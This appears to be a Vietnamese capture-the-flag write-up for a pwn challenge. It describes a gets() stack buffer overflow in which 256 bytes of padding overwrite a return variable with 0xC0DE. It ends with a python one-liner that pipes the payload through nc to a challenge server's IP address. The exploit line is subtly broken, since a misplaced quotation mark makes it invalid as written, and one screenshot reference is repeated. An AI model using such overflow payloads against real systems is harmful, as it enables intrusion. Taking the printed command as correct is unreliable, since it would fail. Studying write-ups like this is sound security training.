 # Solve
> Mở file bằng ida ta có:

![](pwn1.png)

Để có được flag thì v4 phải bằng 0xC0DE.
mà `v4 = choice()`
Chạy đến hàm choice() để xem giá trị của v4 được tính như thế nào.

![](pwn2.png)

![](pwn2.png)

Nhìn vào đó có thể thấy được v49 là giá trị trả về.
Địa chỉ của v49 trong stack là: `bp-110h`
Đại chỉ của s trong stack là: `bp-210h`
`gets(&s);` là hàm không an toàn thế nên nếu nhập vào một xâu có độ dài vượt quá `0x210-0x110 = 256` thì sẽ bị tràn giá trị xuống v49.

Từ đó ta có cú pháp sau:
```cmd
python -c"print 'a'*256'+'\xde\xc0\x00\x00'" | nc 103.237.99.35 25033
```
